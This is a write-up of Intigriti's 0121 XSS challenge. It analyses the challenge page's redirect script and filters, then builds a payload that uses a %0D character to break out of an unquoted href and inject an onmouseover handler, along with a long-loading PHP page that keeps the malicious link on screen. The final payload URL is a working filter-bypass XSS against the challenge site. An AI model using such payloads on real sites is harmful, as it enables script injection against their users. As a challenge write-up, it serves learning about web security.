



## Intigriti's 0121 XSS Challenge (unintended solution)

On January 25th, Intigriti put a new XSS Challenge online. As usual, I had to try to solve it.


First step is to take a look at the source code to start analysing scripts.
We can see that the page takes one script.js file



The script.js content:
```

  window.href = new URL(window.location.href);
  window.r = href.searchParams.get("r");
  //Remove malicious values from href, redirect, referrer, name, ...
  ["document", "window"].forEach(function(interface){
    Object.keys(window[interface]).forEach(function(globalVariable){
        if((typeof window[interface][globalVariable] == "string") && (window[interface][globalVariable].indexOf("javascript") > -1)){
            delete window[interface][globalVariable];
        }
    });
  });
  
  window.onload = function(){
    var links = document.getElementsByTagName("a");
    for(var i = 0; i < links.length; i++){
      links[i].onclick = function(e){
        e.preventDefault();
        safeRedirect(e.target.href);
      }
    }
  }
  if(r != undefined){
    safeRedirect(r);
  }
  function safeRedirect(url){
    if(!url.match(/[<>"' ]/)){
      window.setTimeout(function(){
          if(url.startsWith("https://")){
            window.location = url;
          }
          else{ //local redirect
            window.location = window.origin + "/" + url;
          }
          window.setTimeout(function(){
            document.getElementById("error").style.display = "block";
          }, 1000);
      }, 5000);
      document.getElementById("popover").innerHTML = `
        <p>You're being redirected to ${url} in 5 seconds...</p>
        <p id="error" style="display:none">
          If you're not being redirected, click <a href=${url}>here</a>
        </p>.`;
    }
    else{
      alert("Invalid URL.");
    }
  }
```
Basically, on page load, the script will be looking for the **r** parameter in the URL and then redirect to user to the value of this parameter after 5 seconds. If **r** starts with **https://**, user will be redirected to external website. If not, the rediction will be local.
Of course, we cannot set **r** to something like **javascript:** because the javascript keyworld would be filtered by the following code:
```
//Remove malicious values from href, redirect, referrer, name, ...
  ["document", "window"].forEach(function(interface){
    Object.keys(window[interface]).forEach(function(globalVariable){
        if((typeof window[interface][globalVariable] == "string") && (window[interface][globalVariable].indexOf("javascript") > -1)){
            delete window[interface][globalVariable];
        }
    });
  });
```
Also, some chars are flitered too : **< > " ' and spaces**.

One thing I noticed is that the **r** paramter value will be reflected in the "popover" div.
``` 
document.getElementById("popover").innerHTML = `
        <p>You're being redirected to ${url} in 5 seconds...</p>
        <p id="error" style="display:none">
          If you're not being redirected, click <a href=${url}>here</a>
        </p>.`;
```
So, can we inject some payload in the anchor tag and get some script executed ? 
My idea was to set a event on the link. After some tries, I decided to use the **onmouseover** event. But before, we need to find a way to bypass the filter because we cannot use something like **url" onmouseover=alert()** (remember that spaces and double quotes are filtered !)
In order to bypass this, I tried to put some chars as **%0D** after my URL and see what would happen, and I noticed that the browser would automatically close the **href** attribute !

That's what we need ! Let's replace **test** by **onmouseover**. As we cannot use quotes, to display the required flag, we need to use the **String.fromCharCode** function for example. **alert('{THIS_IS_THE_FLAG}')** becomes **alert(String.fromCharCode(123,84,72,73,83,95,73,83,95,84,72,69,95,70,76,65,71,125))** .

One more thing: the popover and so the malicious link is displayed after a timeout, if the target page is too long to load. So, te be sure a potential victim sees it, I simply created a long loading page :
```
<?php
sleep(100);
?>
```

Final payload is: (http**s** is important!)
https://challenge-0121.intigriti.io/?r=https://my-server/longpage.php?%0Donmouseover=alert(String.fromCharCode(123,84,72,73,83,95,73,83,95,84,72,69,95,70,76,65,71,125))

(To maximum your chance to have a user moving his mouse over the link, you can add some inline style to make it bigger)


